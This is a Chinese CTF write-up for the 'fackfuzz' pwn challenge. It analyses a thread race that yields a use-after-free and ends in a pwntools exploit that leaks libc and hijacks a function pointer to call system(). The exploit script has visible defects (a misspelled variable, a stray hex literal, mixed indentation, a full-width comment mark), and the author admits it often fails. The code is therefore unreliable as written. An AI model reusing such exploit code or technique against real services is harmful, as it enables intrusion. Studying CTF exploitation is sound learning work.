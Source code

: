 ```yaml
---
layout: post
title: 安恒杯武汉大学邀请赛fackfuzz Writeup
categories: [CTF,Writeup]
description: 安恒杯武汉大学邀请赛AD模式的第二道pwn题，是一道多线程竞态条件的题目
keywords: fackfuzz, Writeup, 武汉大学邀请赛
---
```


# 安恒杯武汉大学邀请赛fackfuzz Writeup

## 漏洞分析

这道题目是我的一个本科同学出的，也是CTF中比较少见的多线程竞态条件的题目，我觉得这个题目出的还是蛮好的，于是就写一下writeup。
运行一下可执行程序，可以看到此程序是一个驱动的fuzz程序

```
---->fack driver fuzzing<----
1. add a driver to fuzz
2. prepare fuzz data
3. start fuzzing
4. stop fuzzing
5. view driver list
6. exit
```

*	add a driver to fuzz 会分配一个形为
	{drivername readfuzzer writefuzzer ioctlfuzzer}的结构体
*	prepare fuzz data会分配一个结构体，包含start fuzzing时调用的函数所需参数
*	start fuzzing会启用三个fuzz的线程分别对驱动进行不断读、写、以及ioctl。
*	stop fuzzing会free掉在add driver和prepare data所分配的结构体。
*	view driver list会查看当前已添加的driver的driver name列表

程序的漏洞存在于函数**sub_401336**中

```
void __fastcall __noreturn freethread(void *a1)
{
  int idx; // [rsp+1Ch] [rbp-4h]@1
  idx = *(_DWORD *)a1;
  currentidx = idx;
  isstop[idx] = 1;
  free(ptr[idx]);
  puts("wait for fuzz thread done");
  sleep(3u);
  ptr[idx] = 0LL;
  if ( threadnum < 0 )
    threadnum = 0;
  free(data[idx]);
  data[idx] = 0LL;
  puts("stop this fuzz done!");
  pthread_exit(0LL);
}
```

此函数会在调用stop fuzzing的时候以pthread_create创建新进程的形式运行。由于free之后会有一个3秒的间隔。这个间隔原意是等待fuzz线程的结束，但是也导致了一个竞态条件的漏洞。

在调用stop fuzzing之后，ptr[idx]会被free掉，但是ptr[idx]在3秒内并没有置0，所以通过这个竞态条件来构造use after free漏洞。

## 漏洞利用

### 泄漏libc地址

当ptr[idx]被free掉之后，原本的driver name因为堆块被free会被覆盖成unsortbin的地址，如果主线程再次调用view driver list，即可拿到unsortbin的地址，这是一个libc的data段的地址，根据这个地址我们可以算出system函数地址。

### 劫持控制流

以下函数为stop fuzzing的处理函数,该函数通过比对driver name获取一个idx，最终这个idx会作为函数**sub_401336**中的idx。

```
__int64 stopfuzz()
{
  signed int i; // [rsp+Ch] [rbp-74h]@3
  char s2; // [rsp+10h] [rbp-70h]@1
  __int64 v3; // [rsp+78h] [rbp-8h]@1

  v3 = *MK_FP(__FS__, 40LL);
  puts("input the driver name to stop fuzzing:");
  readn((__int64)&s2, 0x68uLL);
  if ( (unsigned int)checkname(&s2) )
  {
    for ( i = 0; i <= 9; ++i )
    {
      if ( ptr[i] && !strcmp(ptr[i], &s2) )
      {
        stop(i);
        return *MK_FP(__FS__, 40LL) ^ v3;
      }
    }
    puts("error name");
  }
  else
  {
    puts("invalid name");
  }
  return *MK_FP(__FS__, 40LL) ^ v3;
}
```

但是，如果我们如果按照以下顺序进行调用

1. add a new driver
2. prepare fuzz data
3. prepare fuzz data
4. stop fuzzing
5. add a new driver
6. stop fuzzing
7. prepare fuzz data

调用1 2 3会为ptr[0] data[0] data[1]分配内存，调用会释放ptr[0]的所对应的块，但是由于ptr[0]在3秒内并不会被置空。

5被调用后，ptr[1]会被重新分配ptr[0]所指向的内存，也就是说ptr[0]与ptr[1]指向的是同一块内存，

接着调用6，ptr[0]与ptr[1]所指向的内存会被再次free，由于ptr[0]与ptr[1]指向同一块内容，所以根据stop fuzzing的处理函数的逻辑，只有ptr[0]会被在3秒后置0，ptr[1]则会指向一个被free的内存块

最后调用7，将ptr[1]所指向的内存重新分配到字符串readdata中，通过对readdata进行修改即可控制ptr[1]所指向的带有函数指针的结构体的值。从而劫持控制流。

值得一提的是，由于我们拿到的shell是子线程的shell，所以我们无法直接与该shell进行交互，我们可以通过system("cat flag")拿到flag。

## exploit代码

```
from pwn import *;
from time import sleep;
port=8888
objname = "fackfuzz"
objpath = "./"+objname
io = process(objpath)
	
def readuntil(delim):
    data = io.recvuntil(delim);
    print data;
    return data;
	
def readlen(len):
    data = io.recv(len,1);
    return data;
	
def readall():
    data = io.recv(4096,1);
    print data;
    return data;
	
def write(data):
    sleep(0.05)
    io.send(str(data));
	    
def writeline(data):
    sleep(0.05)
    io.sendline(str(data));
	
def padding(size):
    cf = "/bin/shcat/home/ctf/flag";
    paddata = "";
    for i in range(size):
        paddatax += cf[i%len(cf)];
    return paddata;
	
def newdriver(name):
	 writeline(1);
	 writeline(name)
	 readall()
def prepare(readsize,readdata):
	 writeline(2);
	 writeline(readsize);
	 writeline(readdata);
	 writeline(2);
	 writeline(1);
	 writeline(1);
	 writeline(1);
	 writeline(1);
    readall()
def startfuzz(name):
    writeline(3);
    writeline(name);
    readall();
def stopfuzz(name):
    writeline(4);
    writeline(name);
    readall();
def viewdriver():
    writeline(5);
    print readuntil(":");
    return readuntil("\n")[:-1];
    	
def attack(ip=0):
    global io
    if ip != 0:
        io = remote(ip,port)
    newdriver("/dev/haha1");
    prepare(10,"haha1")
    prepare(50,"cat flag > /dev/fd/1\x00")
    stopfuzz("/dev/haha1");
    usortbin=viewdriver();
    usortbin=usortbin+(8-len(usortbin))*'\x00';
    usortbin=u64(usortbin);
    system=usortbin-0x378178
    print hex(system);
    newdriver("/dev/haha3");0x01e36010
    stopfuzz("/dev/haha3");
    sleep(4)
    
    payload="/dev/haha4\x00"
    payload+=(0x68-len(payload))*"A";
    payload+=p64(system)*3;
    prepare(0x88,payload);
    print viewdriver()
    
    startfuzz("/dev/haha4");
    sleep(3)
    readall()＃get flag

attack()
```

**此exploit理论上应该没问题，但是实际攻击的时候却不是很稳定，有时候得不到flag，我调试了很久也没有找到原因，还希望找到原因的同学联系我分享一下你的想法,感激不尽**